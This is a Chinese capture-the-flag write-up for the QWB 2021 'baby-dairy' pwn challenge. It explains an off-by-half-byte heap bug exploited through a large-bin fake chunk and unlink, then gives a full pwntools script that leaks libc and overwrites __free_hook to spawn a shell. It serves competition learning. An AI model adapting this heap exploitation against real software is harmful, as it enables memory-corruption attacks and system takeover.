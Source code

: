 ```yaml
---
title: Off By Half Byte:Baby-Dairy
date: 2021-07-02 14:53:19
tags: 
---
```

baby-dairy qwb 2021
<!--more-->
# Ana

`libc version` == 2.31

漏洞点：

1. add会比输入的size大一个字节之后会补零，之后会往内容后面多半个字节写一个`checksum`(暂且称之为`offby0.5`)
2. `show`的时候会检查`checksum`不过写的有些问题用的是`&1`所以一半可能性能`show`出来（虽然`index`和`ptr`和`size`会被检查）

虽然做完之后感觉也没啥，但是这种利用`large bin`的方式很巧妙值得一篇单独的wp。

# Solution

本题之中开始时能用的上的只有 `offby0.5`,不能控制`size`大小所以只能控制`inuse`，这时候只能走`unlink`。因为`unlink`会检查 `fd→bk` 和`bk→fd`，但是没有泄漏，所以需要借助已有的地址，至于为什么要用`largin bin`因为`large bin`可以直接提供两个指向自己的`heap`指针且恰好可以设计size=presize（其实我是马后炮，我是看了队友给出的一篇[文章][1]发现2.29没泄漏走`large bin`比较快）。

一个`large bin`一般长这样，我们构造我们的fake chunk 再`large bin +0x10`处，将`bk`改成`size`，使其等于`persize`，`presize`自己算，恰好把`fake` `chunk`给`unlink`掉。

```bash
large bin (splited):
--------------------------------
presize       size
--------------------------------
fd            bk
--------------------------------
fd_nextsize   bk_nextsize
--------------------------------
unsorted bin
...
--------------------------------
attack chunk:(which offby0.5/with a fake presize)
--------------------------------
victim: (which would consolidate backforward)
...
--------------------------------
```

我们的写指针从`fd`开始写，当只有一个`large bin`的时候`nextsize`指针都指向自己，这是个优势我们如果要满足`unlink`只需要

1. `presize` = `large bin` +0x10
2. `fd` = `bk`-0x8
3. `size` = `pre_size`

通过以下手段满足：

1. 用`fastbin chain`（`tcache` 的话`key`会覆盖掉`fake chunk`的`size`）来放一个`heap`地址之后`partial` `write`掉指向`fake chunk`
2. `fd`可以`partial write`最后一个字节，倒数第二字节需要碰运气恰好为00（当然最后1.5字节要自己调成0，此处需要1/16的概率），之后程序会改掉2.5字节所以再需要1/16的概率。

这样只要设置好 `attack chunk`的 `fake presize`之后`free` 掉 `attack chunk` 就可以`overlap` `unsorted bin`，接下来就是常规操作了。

# EXP(1/256)

```python
from pwn import *
context.arch='amd64'
def cmd(c):
    p.sendlineafter(">> ",str(c))
def add(size,c='A\n'):
    cmd(1)
    p.sendlineafter(": ",str(size-1))
    p.sendafter(": ",c)
def free(c):
    cmd(3)
    p.sendlineafter(": ",str(c))
def show(c):
    cmd(2)
    p.sendlineafter(": ",str(c))
p=process("./pwn")
#context.log_level='debug'
add(0xd60)#0
add(0x6f8+0x20)#1
add(0x208)#2
add(0x488)#3
add(0x28)#4
free(1)
add(0xAAA)#1
add(0x18,"A\n")#5
add(0xAAA)#6
add(0x28,p64(1+0xd)+p64(0x901)+b'\x18'+b'\n')#7
for x in range(8,8+8):
    add(0x28)
for x in range(8,8+8):
    free(x)
free(7)
for x in range(7,7+7):
    add(0x28)
add(0x28,'\x30\n')#14
free(2)
add(0x208,'\0'*0x207)#2
free(2)
add(0x208,'\0'*0x1ff+'\x09'+'\n')#2
# context.terminal=['tmux','split']
# gdb.attach(p,'''
# set *0x55555555a040=0x000055555555a018
# set *0x000055555555a030=0x000055555555a030
# q
# ''')
context.terminal=['tmux','split','-h']
free(3)
add(0x548)#3
context.log_level='debug'
add(0x28,'A'*0x16+'\n')#15
add(0x160)#16
#raw_input()
show(15)
p.readuntil(": ")
base=u64(p.readline()[:-1]+b'\0\0')-(0x7f83ef52dbe0-0x7f83ef342000)
log.warning(hex(base))
#gdb.attach(p)
add(0x28)#17
add(0x28)#18
add(0x28)#19
add(0x28)#20
for x in range(7,7+6):
    free(x)
free(18)
free(20)
free(15)
show(17)
p.readuntil(": ")
heap=u64(p.readline()[:-1]+b'\0\0')-0x1230
log.warning(hex(heap))
free(19)
free(17)
for x in range(7,7+6):
    add(0x28)
add(0x28)#15
add(0x28,p64(base+0x1eeb28)+b'\n')#17 - > free hook 
add(0x28,'/bin/sh\0\n')#18
add(0x28)#19
add(0x28,p64(base+0x55410)+b'\n')#20
#gdb.attach(p,'b free')
free(18)
p.interactive()
```

# 总结

利用`large bin`的结构`partial write`来满足`unlink`的思路是很骚了。

即使是末尾补0，无泄露也挡不住`0ffby0.5`，这题挺有意思的。

[1]: https://www.anquanke.com/post/id/236078?ivk_sa=1024320u#h3-14